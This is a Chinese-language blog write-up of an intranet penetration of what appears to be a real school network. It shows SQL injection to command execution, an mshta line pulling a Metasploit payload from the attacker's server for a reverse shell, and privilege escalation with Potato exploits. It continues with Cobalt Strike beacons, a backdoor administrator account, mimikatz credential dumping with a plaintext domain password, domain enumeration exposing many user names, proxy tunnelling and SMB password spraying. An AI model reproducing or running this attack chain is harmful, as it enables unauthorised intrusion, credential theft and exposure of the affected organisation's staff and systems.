




记一次详细的内网渗透过程
第一次内网渗透，不足之处请师傅指点。
外网打点
sqlmap获取shell权限
Sqlmap --sql-shellSqlmap --sql-shell命令，获取一个命令行模式。
xp_cmdshell，先查看是否存在
sql-shell> select count(*) from master.dbo.sysobjects where xtype='x' and name='xp_cmdshell'[22:01:36] [INFO] fetching SQL SELECT statement query output: 'select count(*) from master.dbo.sysobjects where xtype='x' and name='xp_cmdshell''[22:01:36] [INFO] resumed: '1'select count(*) from master.dbo.sysobjects where xtype='x' and name='xp_cmdshell': '1'
启用xp_cmdshell
sql-shell> EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE;[09:48:09] [INFO] executing SQL data execution statement: 'EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE'EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE: 'NULL'
尝试执行命令
sql-shell> exec master..xp_cmdshell 'whoami'[09:48:58] [INFO] executing SQL data execution statement: 'exec master..xp_cmdshell 'whoami''exec master..xp_cmdshell 'whoami': 'NULL'
命令无回显，应该是服务器被降权。
sql-shell> select @@servername[] [INFO] fetching SQL SELECT statement query output: 'select @@servername'[] [INFO] retrieved: 'NEWDATABASE'select @@servername: 'NEWDATABASE'sql-shell> select host_name()[23:02:19] [INFO] fetching SQL SELECT statement query output: 'select host_name()'[23:02:21] [INFO] retrieved: 'MAIL'select host_name(): 'MAIL'
Sqlmap --os-shell
开始撸内网
目标系统为：
web server operating system: Windows 8.1 or 2012 R2web application technology: ASP.NET, Microsoft IIS 8.5, ASPback-end DBMS: Microsoft SQL Server 2012
Mshta 反弹 shell
尝试各种命令但是发现回显太慢，未找到web路径，无法写web马、exe马，这里尝试使用hta文件。
➜ ~ sqlmap -r /Users/apple/Desktop/1.txt --os-shell
msf启动
msf6 exploit(windows/misc/hta_server) > run[*] Exploit running as background job 0.[*] Exploit completed, but no session was created.[*] Started reverse TCP handler on 1.1.1.1:4444[*] Using URL: http://0.0.0.0:8080/8HGLrG47OUEJ.hta[*] Local IP: http://vps:8080/8HGLrG47OUEJ.hta[*] Server started.
在目标机器执行
mshta.exe http://vps:8080/8HGLrG47OUEJ.hta
maf回显
[*] ip hta_server - Delivering Payload[*] Sending stage (175174 bytes) to ip[*] Meterpreter session 1 opened (vps_ip:4444 -> ip:61915) at 2020-12-04 10:01:42 +0800msf6 exploit(windows/misc/hta_server) > sessions -lActive sessions===============Id Name Type Information Connection-- ---- ---- ----------- ----------1 meterpreter x86/windows NT Service\MSSQLSERVER @ DATABASE vps_ip:4444 -> ip:61915 (10.10.10.5)msf6 exploit(windows/misc/hta_server) > sessions -i 1[*] Starting interaction with 1...
查看目标系统信息
meterpreter > sysinfoComputer : DATABASEOS : Windows 2012 R2 (6.3 Build 9600).Architecture : x64System Language : zh_TWDomain : WEGOLogged On Users : 14Meterpreter : x86/windows
进入shell查看一下具体信息，有乱码设置一下编码
C:\Windows\system32>chcp 65001C:\Windows\system32>ipconfig /allipconfig /allWindows IP ConfigurationHost Name . . . . . . . . . . . . : databasePrimary Dns Suffix . . . . . . . : xx.xx.x x.xxNode Type . . . . . . . . . . . . : HybridIP Routing Enabled. . . . . . . . : NoWINS Proxy Enabled. . . . . . . . : NoDNS Suffix Search List. . . . . . : xx.xx.x x.xxEthernet adapter NIC2:Media State . . . . . . . . . . . : Media disconnectedDNS Suffix . :Description . . . . . . . . . . . : Broadcom NetXtreme Gigabit Ethernet #4Physical Address. . . . . . . . . : 10-98-36-B0-ED-AEDHCP Enabled. . . . . . . . . . . : NoAutoconfiguration Enabled . . . . : YesEthernet adapter NIC1:DNS Suffix . :Description . . . . . . . . . . . : Broadcom NetXtreme Gigabit Ethernet #3Physical Address. . . . . . . . . : 10-98-36-B0-ED-ADDHCP Enabled. . . . . . . . . . . : NoAutoconfiguration Enabled . . . . : YesIPv4 Address. . . . . . . . . . . : 10.10.10.5(Preferred)Subnet Mask . . . . . . . . . . . : 255.255.254.0Default Gateway . . . . . . . . . : 10.10.10.254DNS Servers . . . . . . . . . . . : 10.10.10.310.10.10.2NetBIOS over Tcpip. . . . . . . . : Enabled
具有内网环境，DNS服务器可能就是域控。
DNS Servers . . . . . . . . . . . : 10.10.10.310.10.10.2
提权
利用MSF提权
查看当前用户
C:\Windows\system32>whoamiwhoamint service\mssqlserver
查看系统信息，打得补丁还是比较多的。
systeminfo也可以使用msf模块搜索可执行的本地提权信息
msf6 > use post/multi/recon/local_exploit_suggestermsf6 post(multi/recon/local_exploit_suggester) > run[*] 10.10.10.5 - Collecting local exploits for x86/windows...[*] 10.10.10.5 - 35 exploit checks are being tried...[+] 10.10.10.5 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.nil versions are discouraged and will be deprecated in Rubygems 4[+] 10.10.10.5 - exploit/windows/local/ikeext_service: The target appears to be vulnerable.[+] 10.10.10.5 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The service is running, but could not be validated.[+] 10.10.10.5 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.[+] 10.10.10.5 - exploit/windows/local/ms16_075_reflection_juicy: The target appears to be vulnerable.[*] Post module execution completed
ms16_075烂土豆提权，直接使用msf进行提权，提权提崩了。。。，尝试exe提权，发现目录不可写。权限不够。(应该找可写目录的，后来找到一个可写目录。)
meterpreter > upload /tmp/beacon.exe C:/Windows/Temp利用CS提权
加载插件，插件下载地址：
https://github.com/scanfsec/AggressorCNA/blob/master/reflectiveJuicyPotato/juicypotato.cn
beacon> elevate juicypotato http[*] Task Beacon to run windows/beacon_http/reverse_http (1.1.1.1:7777) via JuicyPotato (ms16-075)[+] host called home, sent: 599618 bytes[+] received output:.[+] received output:..[+] received output:..[+] received output:.[+] received output:[+] authresult 0[*] {4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM[+] CreateProcessWithTokenW OK
提权失败，接着使用另一个脚本
https://github.com/DeEpinGh0st/Erebus成功返回一个shell，system权限。
[] Task Beacon to run windows/beacon_http/reverse_http (1.1.1.1:7777) via RottenPotato (ms16-075)[*] Tasked beacon to spawn NTLM DCOM->RPC NTLM Reflection (MS16-075)[+] host called home, sent: 256865 bytes
但是当前用户确实mssql，权限确实system权限，mssql上线需要迁移进程。
good beacon> shell whoami[*] Tasked beacon to run: whoami[+] host called home, sent: 37 bytes[+] received output:nt service\mssqlserverbeacon> getuid[*] Tasked beacon to get userid[+] host called home, sent: 8 bytes[*] You are NT AUTHORITY\SYSTEM (admin)
使用当前beacon，注入一个administrator用户的进程。
成功生成一个beacon。
创建用户
先创建用户并加入管理员组
查看用户组
beacon> shell net localgroup[*] Tasked beacon to run: net localgroup[+] host called home, sent: 45 bytes[+] received output:\\DATABASE 的別名-------------------------------------------------------------------------------*Access Control Assistance Operators*Administrators*Backup Operators*Certificate Service DCOM Access*Cryptographic Operators*Distributed COM Users*Event Log Readers*Guests*HelpLibraryUpdaters*Hyper-V Administrators*IIS_IUSRS*Network Configuration Operators*Performance Log Users*Performance Monitor Users*Power Users*Print Operators*RDS Endpoint Servers*RDS Management Servers*RDS Remote Access Servers*Remote Desktop Users*Remote Management Users*Replicator*SQLServer2005SQLBrowserUser$NEWDATABASE*SQLServerMSASUser$NEWDATABASE$MSSQLSERVER*Users*WinRMRemoteWMIUsers__命令已经成功完成。
管理员组添加用户
beacon> shell net localgroup Administrators good /add[] Tasked beacon to run: net localgroup Administrators good /add[] host called home, sent: 70 bytes[] received output:命令已经成功完成。
查看管理员组
beacon> shell net localgroup Administrators[] Tasked beacon to run: net localgroup Administrators[] host called home, sent: 60 bytes[] received output:別名 Administrators註解 Administrators 可以完全不受限制地存取电脑/网域成員-------------------------------------------------------------------------------AdministratorgoodHelpAssistantWEGO\Domain Admins命令已经成功完成。
端口扫描，尝试连接3389
beacon> portscan 10.10.10.5 1-1024,3389,5000-6000 arp 1024[] Tasked beacon to scan ports 1-1024,3389,5000-6000 on 10.10.10.5[] host called home, sent: 93245 bytes[] received output:(ARP) Target '10.10.10.5' is alive. 10-98-36-B0-ED-AD10.10.10.5:5985[] received output:10.10.10.5:3389[] received output:10.10.10.5:13910.10.10.5:13510.10.10.5:8010.10.10.5:445 (platform: 500 version: 6.3 name: DATABASE domain: WEGO)Scanner module is complete
抓取密码
运行mimikatz抓密码。
logonpasswordswdigest :* Username : Administrator* Domain : WEGO* Password : jo6ek6vul3vm,6
打域控，挂socker代理(cs的socks4很不好用，后来使用的是frp)。
beacon> socks 1070[] started SOCKS4a server on: 1070[] host called home, sent: 16 bytes
获取域内的基础信息
查询机器属于哪个域
shell net config Workstationshell net config WorkstationTasked beacon to run: net config Workstationhost called home, sent: 53 bytesreceived output:\\DATABASEdatabase.xx.xx.x x.xxAdministrator(109836B0EDAD)Windows Server 2012 R2 StandardWEGODNS 名称 xx.xx.x x.xxWEGOCOM 启用等候逾时(秒) 0COM 传送计数 (位元组) 16COM 传送等候逾时(千分之一秒) 250命令已经成功完成。
查询当前内网中域数量
查询有几个域, 查询域列表
beacon> shell net view /domain[] Tasked beacon to run: net view /domain[] host called home, sent: 47 bytes[] received output:Domain-------------------------------------------------------------------------------KGWEGOWORKGROUP命令已经成功完成。
查询域控制器主机名
beacon> shell net group "domain controllers" /domain[] Tasked beacon to run: net group "domain controllers" /domain[] host called home, sent: 69 bytes[] received output:这项要求会在网域 xx.xx.x x.xx 下的网域控制站处理。群组名称 Domain Controllers註解 在网域所有的网域控制站成员-------------------------------------------------------------------------------AD1$ AD2$ AD3$命令已经成功完成
查询域控制器
beacon> shell net group "domain controllers" /domain[] Tasked beacon to run: net group "domain controllers" /domain[] host called home, sent: 69 bytes[] received output:这项要求会在网域 xx.xx.x x.xx 下的网域控制站处理。群组名称 Domain Controllers註解 在网域所有的网域控制站成员-------------------------------------------------------------------------------AD1$ AD2$ AD3$命令已经成功完成
查看一下域控制器的IP
beacon> shell ping AD1.xx.xx.x x.xx[] Tasked beacon to run: ping AD1.xx.xx.x x.xx[] host called home, sent: 54 bytes[] received output:Ping AD1.xx.xx.x x.xx [10.10.10.2] (使用 32 位元组的资料):回覆自 10.10.10.2: 位元组=32 时间<1ms TTL=128回覆自 10.10.10.2: 位元组=32 时间<1ms TTL=128回覆自 10.10.10.2: 位元组=32 时间<1ms TTL=128回覆自 10.10.10.2: 位元组=32 时间<1ms TTL=12810.10.10.2 的 Ping 统计资料:封包: 已传送 = 4，已收到 = 4, 已遗失 = 0 (0% 遗失)，大约的来回时间 (毫秒):最小值 = 0ms，最大值 = 0ms，平均 = 0msbeacon> shell ping AD2.xx.xx.x x.xx[] Tasked beacon to run: ping AD2.xx.xx.x x.xx[] host called home, sent: 54 bytes[] received output:Ping AD2.xx.xx.x x.xx [10.10.10.3] (使用 32 位元组的资料):回覆自 10.10.10.3: 位元组=32 时间<1ms TTL=128回覆自 10.10.10.3: 位元组=32 时间<1ms TTL=128回覆自 10.10.10.3: 位元组=32 时间<1ms TTL=128回覆自 10.10.10.3: 位元组=32 时间<1ms TTL=12810.10.10.3 的 Ping 统计资料:封包: 已传送 = 4，已收到 = 4, 已遗失 = 0 (0% 遗失)，大约的来回时间 (毫秒):最小值 = 0ms，最大值 = 0ms，平均 = 0msbeacon> shell ping AD3.xx.xx.x x.xx[] Tasked beacon to run: ping AD3.xx.xx.x x.xx[] host called home, sent: 54 bytes[] received output:Ping AD3.xx.xx.x x.xx [10.10.10.4] (使用 32 位元组的资料):回覆自 10.10.10.4: 位元组=32 时间<1ms TTL=128回覆自 10.10.10.4: 位元组=32 时间<1ms TTL=128回覆自 10.10.10.4: 位元组=32 时间<1ms TTL=128回覆自 10.10.10.4: 位元组=32 时间<1ms TTL=12810.10.10.4 的 Ping 统计资料:封包: 已传送 = 4，已收到 = 4, 已遗失 = 0 (0% 遗失)，大约的来回时间 (毫秒):最小值 = 0ms，最大值 = 0ms，平均 = 0ms
查询域管理用户
beacon> shell net group "domain admins" /domain[] Tasked beacon to run: net group "domain admins" /domain[] host called home, sent: 64 bytes[] received output:这项要求会在网域 xx.xx.x x.xx 下的网域控制站处理。群组名称 Domain Admins註解 指定的网域系统管理员成员-------------------------------------------------------------------------------Administrator albert_huang chuck_hojerrytsao juinyih sesrj wegovpn2020命令已经成功完成
查询域用户列表
shell net user /domainTasked beacon to run: net user /domainhost called home, sent: 47 bytesreceived output:xx.xx.x x.xx 下的网域控制站处理。x.xx 的使用者帐户-------------------------------------------------------------------------------098 201sandy 203savanah204hanna 205vanessa 213amy2305 3557 526aliceaccount Administrator affairalbert_huang alice31707 alisonamy amyjccd andrewmunroanita anne ap7653argreschler ashinlover ashleychenbeauc berrywu bkmanagerbrandonolen busm cacacamy4648 carolina carolinecashier charlie chellie72cherry2011 cheryllin chichi0707 CHIAEN christinachristinelee chuanmien chuck_hochunying cindykyang cleevecollinsko0109 cyajen0717 Daledfl001 dianahou directordola dperabo eileen5717epayding esansan eslteachereusebia evanceho faithtienfatfat1188 fayina flowerrrguccichia Guest gvholleyhaiyou ikuchen indigododosiriscai IUSER_WEGONET IUSER_WGPSIUSR_MAIL ivyc ivyhouIWAM_MAIL j5218 Jacobson8959jennifer jennifer_liang jerrytsaojessicama711 jgtoma jih455
查看当前域内机器主机名
shell net viewTasked beacon to run: net viewhost called home, sent: 39 bytesreceived output:说明-------------------------------------------------------------------------------\\ACADEMIC\\ACCOUNT3050 会计组长\\AD1\\AD2\\AD3\\CARD100 卡钟主机\\CDTOWER17\\DATABASE\\FILES\\FILES2\\STUFILES\\WIN101C\\WIN106D\\WIN10MUSIC56
查看某个域中的所有计算机主机名
net view /domain:XXX查询域内所有计算机主机名
beacon> shell net group "domain computers" /domain[*] Tasked beacon to run: net group "domain computers" /domain[+] host called home, sent: 67 bytes[+] received output:这项要求会在网域 xx.xx.x x.xx 下的网域控制站处理。群组名称 Domain Computers註解 所有已加入网域的工作站及伺服器成员
-------------------------------------------------------------------------------1A86TV$ 2003R2-32BITS$ 2003SERVER$3060-1E$ 3060-1F$ 3060-2A$3060-2B$ 3060-2C$ 3060-2D$3060-2E$ 3060-2F$ 3060-4A$3060-4B$ 3060-4C$ 3060-4D$3060-5A$ 3060-5B$ 3060-5C$3060-5D$ 3060-6E$ 3060-6F$3060CALLIGRAPHY$ 4730WORK$ ACADEMIC$ACCOUNT3050$ ACCOUNT-3070$ ACCOUNT-7$ACTIVITES-3020A$ ACTIVITES-3020B$ ACTIVITIES3020C$ACTIVITY-181$ AD2-NEW$ AD3-OLD$ADMINISTRATOR$ AFFAIRS-3060$ ALBERT_HUANG$ANNALIU$ ANNALIU-XP-VM$ ASUS-500G4-PC$B8AC6F362198$ B8AC6F3C1711$ B8AC6F3C727F$CALLIGRAPHY3060$ CARD100$ CASHIER-3070$CASHIER7$ CDTOWER17$ CG-86TV$CHIEF-PE$ CURRICULUM-2019$ CURRICULUM-3060$DATABASE$ DB2019$ DELL-2420-3$DELL7020B-36$ DELL7020B-PC$ DELL9020-PC$DELLPC$ DFL-3340-65$ DFL-3340-66$DFL-3340-67$ DFL-3340-70$ DFL-3340ENG-68$DFL-3340ENG-69$ DFL-3380-81$ DFL-3380-82$DFL-3400-85$ DFL-3400-86$ DFL-4730-80$DFL-ACER-82$ DFL-ACER-84$ DFL-ACTIVITIES$DFL-CURRICULUM$ DFL-FILES2017$ DFL-NB1$DFL-NB10$ DFL-NB11$ DFL-NB3$DFL-NB4$ DFL-NB5$ DFL-NB6$DFL-NB7$ DFL-NB9$ DFL-SUPERVISOR2$DIR-AFFAIRS$ DIR-DFL$ DIR-JAPAN$DIR-STUDENT$ DISCIPLINE-3060$ ESL-603$ESLNB-2420-C$ ESLNB-2420-R$ ESL-P243-1$ESL-P243-2$ ESL-P243-3$ ESL-P243-4$FILES$ FILES2$ FITNESSCENTER$HAPPY-HOUSE$ HEALTH-3060$ HEALTH7$HEALTH-SERVICE$ HYGIENE-3070$ HYPERV2008R2$JAPAN77-TEACHER$ KITCHEN3020$ KITCHEN-7-60$LIB-3020-83$ LIB-3020-84$ LIB-3020-85$LIB-3020-86$ LIB-3020-87$ LIB3060TEACHER$LIB-3060TEACHER$ LIB-7020-82$ LIB-TEACHER$MAIL$ MAIL2$ MEDIA-DOME$ML20936$ ML20936-PC$ nas8be8d1$nasbfa3ee$ NEW_NB01$ NEW-WIN$NWIN7-0$ NWIN7-1$ NWIN7-2$NWIN7-3$ NWIN7-4$ OLD-DATA814$OLDDATABASE$ PCSCRIBE-7$ PCTEACHER-100$PE-3060$ PERSONNEL-3060$ PRINCIPAL$PRINCIPAL-21$ PROGRAMER$ REGISTRAR-3070$SCHOOL2003$ SCHOOL-3070$ SCHOOL-PC-01$SCHOOL-PC-02$ SCHOOL-SYS$ SCHOOLWU-PC$SE$ SE7$ SE-PC$SE-XP$ ST-00$ ST000$ST-000$ ST50$ ST50PC$STPC-01$ STPC-02$ STPC-03$STPC-04$ STPC-05$ STPC-06$STPC-07$ STPC-08$ STPC-09$STPC-10$ STPC-11$ STPC-12$STPC-13$ STPC-14$ STPC-15$STPC-16$ STPC-17$ STPC-18$STPC-19$ STPC-20$ STPC-21$STPC-22$ STPC-23$ STPC-24$STPC-25$ STPC-26$ STPC-27$STPC-28$ STPC-29$ STPC-30$STPC-31$ STPC-32$ STPC-33$STPC-34$ STPC-35$ STPC-36$STPC-37$ STPC-38$ STPC-39$STPC-40$ STPC-41$ STPC-42$STPC-43$ STPC-44$ STPC-45$STPC-46$ STPC-47$ STPC-48$STPC-49$ STPREPC$ STPRE-PC$STUFILES$ SURVEILLANCE$ T1-WIN7$TEACHER-WU$ TEST-WIN10-1$ TRYPC001$VICE-DIRECTOR$ VICE-PRINCIPAL$ VIDEOSPIDER$WEGO-DC3$ WEGO-DC4$ WIN101A$WIN101B$ WIN101C$ WIN101D$WIN103A$ WIN103B$ WIN103C$WIN103D$ WIN103E$ WIN103F$WIN104E$ WIN104F$ WIN105E$WIN105F$ WIN106A$ WIN106B$WIN106C$ WIN106D$ WIN106E$WIN10ART12$ WIN10-ART12$ WIN10ART34$WIN10ART56$ WIN10MULTI$ WIN10MUSIC34$WIN10MUSIC56$ WIN10OFFICE01$ WIN10OFFICE02$WIN10OFFICE03$ WIN10OFFICE04$ WIN10SCIENCE34$WIN10SCIENCE56$ WIN7PROX86-01$ WIN7VM$WIN7VM-AP$ WU-TEACHING$beacon> shell C:\Windows\TAPI\SharpHound.exe -c all[*] Tasked beacon to run: C:\Windows\TAPI\SharpHound.exe -c all[+] host called home, sent: 68 bytes[+] received output:------------------------------------------------Initializing SharpHound at 下午 03:37 on 2020/12/8------------------------------------------------Resolved Collection Methods: Group, Sessions, LoggedOn, Trusts, ACL, ObjectProps, LocalGroups, SPNTargets, Container[+] Creating Schema map for domain xx.xx.x x.xx using path CN=Schema,CN=Configuration,DC=WGPS,DC=TP,DC=EDU,DC=TW[+] Cache File not Found: 0 Objects in cache[+] Pre-populating Domain Controller SIDSStatus: 0 objects finished (+0) -- Using 19 MB RAM[+] received output:[+] Creating Schema map for domain 10.10.11.13 using path CN=Schema,CN=Configuration,DC=10,DC=10,DC=11,DC=13Status: 1528 objects finished (+1528 52.68966)/s -- Using 50 MB RAM[+] received output:Status: 1674 objects finished (+146 28.37288)/s -- Using 49 MB RAM[+] received output:Status: 1675 objects finished (+1 18.61111)/s -- Using 47 MB RAM[+] received output:Status: 1675 objects finished (+0 13.95833)/s -- Using 47 MB RAM[+] received output:Status: 1676 objects finished (+1 11.63889)/s -- Using 47 MB RAMEnumeration finished in 00:02:24.3737596Compressing data to .\20201208153758_BloodHound.zipYou can upload this file directly to the UISharpHound Enumeration Completed at 下午 03:40 on 2020/12/8! Happy Graphing!
内网代理搭建一开始我使用的是cs的自带代理信息socks4，发现很不稳定，之后使用frp进行穿透。
服务端vps
[common]bind_addr = 0.0.0.0dashboard_user = gooddashboard_pwd = gooddashboard_port = 7500bind_port = 7000
访问vps:7500端口，也是可以看到图形界面。
目标靶机
配置frpc.ini
[common]server_addr =1.1.1.1server_port = 7000[socks5]type = tcpremote_port = 60000plugin = socks5use_encryption = trueuse_compression = true
上传frpc
beacon> upload /Users/apple/Documents/steady-sec/NW/frp/frpc_full.ini (C:\Windows\TAPI\frpc_full.ini)[*] Tasked beacon to upload /Users/apple/Documents/steady-sec/NW/frp/frpc_full.ini as C:\Windows\TAPI\frpc_full.ini[+] host called home, sent: 8402 bytesbeacon> upload /Users/apple/Documents/steady-sec/NW/frp/frpc.ini (C:\Windows\TAPI\frpc.ini)[*] Tasked beacon to upload /Users/apple/Documents/steady-sec/NW/frp/frpc.ini as C:\Windows\TAPI\frpc.ini[+] host called home, sent: 195 bytes[*] Tasked beacon to upload /Users/apple/Documents/steady-sec/NW/frp/frpc as C:\Windows\TAPI\frpc
win10虚拟机中，使用Proxifier，配置代理。

之后使用任何软件，右键->Proxifier->选择正确的代理。
拿下域控制器
批量口令碰撞445端口
查看开放445端口的主机
shell C:\Windows\TAPI\fscan64.exe -h 10.10.10.1/24 -p 445本地挂代理使用fscan进行扫描
fscan -h 10.10.10.5 -p 445 -user Administrator -pwd jo6ek6vul3vm,6 -domain WEGO -np或者
go run main.go -h 10.10.10.5 -p 445 -np -user Administrator -pwd jo6ek6vul3vm,6 -domainSMB:10.10.10.3:445:Administrator jo6ek6vul3vm,6 WEGOSMB:10.10.10.41:445:Administrator jo6ek6vul3vm,6 WEGOSMB:10.10.10.19:445:Administrator jo6ek6vul3vm,6 WEGOSMB:10.10.10.20:445:Administrator jo6ek6vul3vm,6 WEGOSMB:10.10.10.126:445:Administrator jo6ek6vul3vm,6 WEGOSMB:10.10.10.154:445:Administrator jo6ek6vul3vm,6 WEGOSMB:10.10.10.4:445:Administrator jo6ek6vul3vm,6 WEGOSMB:10.10.10.1:445:Administrator jo6ek6vul3vm,6 WEGOSMB:10.10.10.6:445:Administrator jo6ek6vul3vm,6 WEGOSMB:10.10.10.2:445:Administrator jo6ek6vul3vm,6 WEGOSMB:10.10.10.100:445:Administrator jo6ek6vul3vm,6 WEGOSMB:10.10.10.42:445:Administrator jo6ek6vul3vm,6 WEGOSMB:10.10.10.10:445:Administrator jo6ek6vul3vm,6 WEGOSMB:10.10.10.5:445:Administrator jo6ek6vul3vm,6 WEGO
尝试登录域控制器3389。
批量扫描MS17010
beacon> Ladon 10.10.10.8/24 MS17010[] host called home, sent: 1036383 bytes[] received output:Ladon 7.0Start: 2020-12-04 17:29:22Runtime: .net 4.0 OS Arch: x64OS Name: Microsoft Windows Server 2012 R2 Standard10.10.10.8/24load MS1701010.10.10.8/24 is Valid CIDRIPCound: 256Scan Start: 2020-12-04 17:29:2210.10.10.1 MAIL xx.xx.x x.xx [Win 2012 R2 Standard 9600]10.10.10.48 neweclient.xx.xx.x x.xx10.10.10.34 workpc2019.xx.xx.x x.xx10.10.10.20 FILES2 xx.xx.x x.xx [Win 2012 Standard 9200]10.10.10.19 FILES2 xx.xx.x x.xx [Win 2012 Standard 9200]10.10.10.5 DATABASE xx.xx.x x.xx [Win 2012 R2 Standard 9600]10.10.10.42 account-7.xx.xx.x x.xx10.10.10.46 account3050.xx.xx.x x.xx10.10.10.38 dell7020b-36.xx.xx.x x.xx10.10.10.8 WIN-XF2DOSIWBRF [Win (R) 2008 Standard 6003 SP 2]10.10.10.6 FILES xx.xx.x x.xx [Win 2012 Standard 9200]10.10.10.9 WIN-XF2DOSIWBRF [Win (R) 2008 Standard 6003 SP 2]10.10.10.4 AD3 xx.xx.x x.xx [Win 2012 R2 Standard 9600]10.10.10.17 CDTOWER17 xx.xx.x x.xx [??渀?漀?猀??攀?瘀攀???刀??? ???琀愀渀?愀???? ???攀?瘀?挀攀?倀愀挀欀??]10.10.10.2 AD1 xx.xx.x x.xx [Win 2012 R2 Standard 9600]10.10.10.39 ASUS-500G4-PC xx.xx.x x.xx [Win 7 Professional 7601 SP 1]10.10.10.41 MS17-010 PCSCRIBE-7 xx.xx.x x.xx [Win 7 Professional 7601 SP 1]10.10.10.3 AD2 xx.xx.x x.xx [Win 2012 R2 Standard 9600]10.10.10.45 KG-JOOMLA [Win 2008 R2 Standard 7601 SP 1]10.10.10.35 2014JUINYIHWIN7 [Win 7 Professional 7601 SP 1]10.10.10.22 ACADEMIC xx.xx.x x.xx [Win 7 Professional 7601 SP 1]10.10.10.100 CARD100 [Win 7 Professional 7601 SP 1]10.10.10.90 DFL-FILES2017 [Win 6.1][] received output:10.10.10.10 MEDIA-DOME [Win 6.1][] received output:10.10.10.59 school-3070.xx.xx.x x.xx[] received output:10.10.10.115 3060-1e.xx.xx.x x.xx10.10.10.126 3060-2f.xx.xx.x x.xx10.10.10.142 win104b.xx.xx.x x.xx10.10.10.154 3060-5d.xx.xx.x x.xx[] received output:=============================================OnlinePC:34Cidr Scan Finished!End: 2020-12-04 17:30:06
41这个IP有漏洞
10.10.10.41 MS17-010 PCSCRIBE-7 xx.xx.x x.xx [Win 7 Professional 7601 SP 1]使用工具进行利用
